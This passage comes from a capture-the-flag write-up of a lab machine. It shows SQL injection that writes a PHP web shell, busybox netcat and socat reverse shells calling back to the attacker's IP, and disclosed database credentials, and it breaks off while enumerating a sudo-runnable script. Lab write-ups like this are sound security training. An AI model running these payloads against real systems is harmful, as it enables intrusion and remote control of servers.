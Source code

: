     `http://10.10.10.143/room.php?cod=-1 union select null,variable_name,variable_value,null,null,null,null FROM information_schema.global_variables where variable_name="secure_file_priv" -- //`
    
    ![image.png](image%2014.png)
    
    Variable is empty, that means we can read and write to any directory that are in our shell user privileges.
    
    `http://10.10.10.143/room.php?cod=-1 union select null,"<?php system($_GET['cmd']);?>",null,null,null,null,null INTO OUTFILE "/var/www/html/webshell.php"-- //`
    
    ![image.png](image%2015.png)
    

That’s it writing worked, now I am gonna try to get a reverse shell.

I found out that target contains busybox and used it to get a reverse shell:

```bash
busybox nc 10.10.14.12 443 -e /bin/bash
```

Now we have a shell let’s make it interactive:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")’
```

![image.png](image%2016.png)

Checking `connection.php` I found database credentials:

![image.png](image%2017.png)

But nothing interesting identified inside. I used same password `pepper` user but it didn’t work.

## Credentials

```bash
DBadmin : imissyou
```

## Lateral Movement

Checking sudo privileges I see that I can execute `/var/www/Admin-Utilities/simpler.py` as pepper without password.

I found that we have socat installed let’s make a shell fully interactive:

```bash
socat file:`tty`,raw,echo=0 tcp-listen:4444 #on Kali
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.12:4444 # on victim machine
```

I found a script called `simpler.py` under `/var/www/Admin-Utilities` and it has 3 functions, 

- `-s` prints statistics about the attacker, most risky attack,
- `-l` prints attacker IP
- `-p` pings the attacker
